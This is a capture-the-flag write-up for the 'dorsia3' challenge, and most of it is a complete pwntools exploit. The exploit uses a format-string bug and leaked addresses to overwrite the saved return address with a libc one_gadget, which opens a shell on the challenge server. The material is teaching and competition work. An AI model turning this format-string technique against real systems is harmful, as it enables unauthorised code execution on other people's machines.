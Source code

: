 # dorsia3 250pts (55 solves) #

![TASK](https://imgur.com/vFmQYat.png)

We have a format string vulnerability and a leak of the buffer and system address so my idea was to overwrite the saved eip with the address of a one gadget from libc , we have all what we need so here is my full exploit.

I'll post a detailed writeup about this task in the next few days on my personal website so stay tuned (my twitter @BelkahlaAhmed1)!

![CODE](https://imgur.com/GSFhTJW.png)

```python

from pwn import *
def pad(str):
        return str+(60-len(str))*"B"
#p=process("./nanoprint")
p=remote("dorsia3.wpictf.xyz",31337)
data=p.recvline()
BUFFER=int(data[:10],16)
SYSTEM=int(data[-11:-1],16)+288
log.info("Buffer starts: "+hex(BUFFER))
log.info("System address: "+hex(SYSTEM))
BASE=SYSTEM-0x3d200
one_gadget=BASE+0x3d0e0
RET=BUFFER+0x71
RET2=RET+2
log.info("Writing to: "+hex(RET))
payload="B"
payload+=p32(RET)
payload+=p32(RET2)
off1=(one_gadget & 0xffff)-9
off2=int(hex(one_gadget & 0xffff0000)[:-4],16)-(one_gadget & 0xffff)
log.info("one gadget address: "+hex(one_gadget))
log.info("offset1 and 2: "+str(off1)+"|"+str(off2))
payload+="%"+str(off1)+"x"
payload+="%7$hn"
payload+="%"+str(off2)+"x"
payload+="%8$hn"
#pause()
p.sendline(pad(payload))
p.interactive()

#Offset buffer-ret : +0x71
#offset fmt 7

```

**Note:** : Here is the [binary]() and the [libc]()

For any questions you can contact me on twitter @BelkahlaAhmed1 and thank you :D
